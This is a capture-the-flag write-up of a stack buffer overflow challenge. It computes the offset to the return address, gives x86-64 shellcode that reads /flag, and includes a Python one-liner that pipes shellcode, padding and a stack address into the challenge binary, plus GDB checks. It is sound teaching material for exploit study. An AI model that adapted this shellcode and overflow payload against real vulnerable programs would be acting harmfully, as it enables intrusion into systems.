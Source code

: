 # **Binary Exploitation: Hijack to Shellcode (Hard) - Detailed Technical Writeup**

## **Challenge Overview**
This challenge requires exploiting a stack-based buffer overflow vulnerability to redirect program execution to injected shellcode. Unlike the easy version, it provides no debugging information, requiring manual reverse engineering of the stack layout.

### **Key Characteristics**
- **Vulnerable Function**: `challenge()` with a buffer overflow vulnerability
- **Protections Disabled**:
  - No stack canary
  - No ASLR (addresses remain constant)
  - Executable stack (NX disabled)
- **Objective**: Inject shellcode that reads and prints `/flag`

## **Step-by-Step Solution**

### **1. Analyzing the Function Prologue**

From the disassembly:
```asm
0x40225f <challenge>:	endbr64
0x402263 <challenge+4>:	push   %rbp
0x402264 <challenge+5>:	mov    %rsp,%rbp
0x402267 <challenge+8>:	sub    $0x70,%rsp
```

**Key Observations**:
1. The function starts by saving the old base pointer (push %rbp)
2. Sets up a new stack frame (mov %rsp,%rbp)
3. Allocates 0x70 (112) bytes for local variables

### **2. Determining the Buffer Location**

At the point after stack frame setup (mov %rsp,%rbp):
```
rbp = 0x7fffffffc5e0
rsp = 0x7fffffffc5e0
```

The buffer is referenced at `-0x50(%rbp)` in later instructions:
```
Buffer Address = rbp - 0x50 
               = 0x7fffffffc5e0 - 0x50 
               = 0x7fffffffc590
```

### **3. Calculating the Return Address Location**

The return address is always stored at:
```
Return Address = rbp + 8
               = 0x7fffffffc5e0 + 8
               = 0x7fffffffc5e8
```

### **4. Computing the Offset**

```
Offset = Return Address - Buffer Start
       = 0x7fffffffc5e8 - 0x7fffffffc590
       = 0x58 (88 in decimal)
```

### **5. Shellcode Preparation**

Using standard flag-reading shellcode (56 bytes):
```asm
section .text
global _start

_start:
    ; Open /flag
    xor rax, rax
    push rax
    mov rbx, 0x67616c662f2f2f2f  ; '////flag'
    push rbx
    mov rdi, rsp
    mov al, 2          ; sys_open
    xor rsi, rsi       ; O_RDONLY
    xor rdx, rdx       ; mode
    syscall

    ; Read file
    mov rdi, rax
    mov rsi, rsp
    mov dl, 0x40       ; read 64 bytes
    xor eax, eax       ; sys_read
    syscall

    ; Write to stdout
    xor edi, edi
    inc edi            ; stdout = 1
    xor eax, eax
    inc eax            ; sys_write = 1
    syscall

    ; Exit
    xor eax, eax
    mov al, 60         ; sys_exit
    xor edi, edi       ; exit code 0
    syscall
```

Compiled to raw bytes:
```bash
nasm -f elf64 shellcode.asm -o shellcode.o
ld shellcode.o -o shellcode
objcopy --dump-section .text=shellcode.bin shellcode
```

### **6. Crafting the Exploit**

The payload structure:
1. **Shellcode** (56 bytes)
2. **Padding** (88 - 56 = 32 bytes)
3. **Return Address** (0x7fffffffc590)

Final exploit command:
```bash
python3 -c 'import sys
with open("shellcode.bin", "rb") as f:
    sc = f.read()
sys.stdout.buffer.write(sc + b"A"*(88-len(sc)) + b"\x90\xc5\xff\xff\xff\x7f\x00\x00")' \
| /challenge/binary-exploitation-hijack-to-shellcode
```

### **7. Why This Worked**

1. **Precise Memory Layout**:
   - Correctly calculated buffer start (0x7fffffffc590)
   - Accurate offset calculation (88 bytes)
   - Proper return address overwrite

2. **Shellcode Design**:
   - Position-independent
   - No null bytes
   - Handles all file operations correctly

3. **Memory Permissions**:
   - Executable stack allowed code execution
   - ASLR disabled made addresses predictable

## **Debugging Methodology**

### **1. Verifying Stack Layout**
```gdb
break *challenge+8  # After stack frame setup
run
info registers
x/20gx $rbp-0x50   # Examine buffer area
```

### **2. Checking Exploit Placement**
```gdb
x/20gx 0x7fffffffc590  # Should show shellcode
x/gx $rbp+8            # Should show overwritten address
```

### **3. Common Issues and Fixes**

| Problem | Solution |
|---------|----------|
| Shellcode not executing | Add NOP sled before shellcode |
| Wrong return address | Adjust by 8-16 bytes |
| Program crashing | Check for bad characters in shellcode |

## **Key Lessons Learned**

1. **Stack Frame Analysis**:
   - Understanding function prologue/epilogue
   - Calculating local variable offsets

2. **Precision Exploitation**:
   - Exact offset calculation is critical
   - Memory addresses must be perfectly aligned

3. **Exploit Reliability**:
   - NOP sleds increase success rate
   - Multiple return addresses can help

## **Conclusion**

This challenge demonstrated a classic stack-based buffer overflow exploit with several important technical considerations:

1. **Manual Reverse Engineering**:
   - Analyzing assembly without debug symbols
   - Calculating memory offsets from registers

2. **Exploit Development**:
   - Crafting position-independent shellcode
   - Precise padding calculation
   - Return address overwrite

3. **Debugging Techniques**:
   - Using GDB to verify memory layout
   - Methodical testing approach

The skills developed here form the foundation for more advanced binary exploitation techniques, including Return-Oriented Programming (ROP) and bypassing modern protections like NX and ASLR.
